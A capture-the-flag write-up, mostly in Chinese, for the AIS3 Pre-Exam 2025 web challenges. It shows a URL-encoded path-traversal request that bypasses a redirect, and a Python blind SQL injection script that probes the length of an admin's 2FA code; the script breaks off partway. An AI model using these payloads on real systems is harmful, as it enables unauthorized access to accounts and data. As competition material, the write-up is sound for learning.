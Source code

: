 ```yaml
---
title: "AIS3_Pre_Exam_2025_Writeups"
published: 2025-06-02T15:41:46.000Z
description: ""
tags: []
category: "general"
draft: false
---
```

# AIS3_Pre_Exam_2025 Writeups by owl_d

> Username: 松鼠醫生
> Score: 1200

## Web

### Tomorin db

直接去 /flag 會被 redirect 到影片去

```
http://chals1.ais3.org:30000/..%2fflag
```

就可以進到 /flag 頁面

---

### Login Screen 1

一開始先發現兩組帳密：
guest/guest, admin/admin
從 source code 可以看出 username 有 sqli





先測測看 admin 的 2FA 長度

```python
import requests
import time

URL = "http://login-screen.ctftime.uk:36368/index.php"
PASSWORD = "guest"
MAX_LENGTH_TO_CHECK = 50 

found_length = 0

for length_to_guess in range(1, MAX_LENGTH_TO_CHECK + 1):
    payload = f"guest' AND (SELECT LENGTH(code) FROM users WHERE username='admin') = {length_to_guess} -- "
    data = {
        "username": payload,
        "password": PASSWORD
    }
    try:
        print(f"長度: {length_to_guess}", end='\r')
        r = requests.post(URL, data=data, timeout=10) # 無狀態的 requests.post，不然前面傳完後面就不用傳了
        if r.history:
            found_length = length_to_guess
            print(f"\n長度是: {found_length}")
            break
        else:
```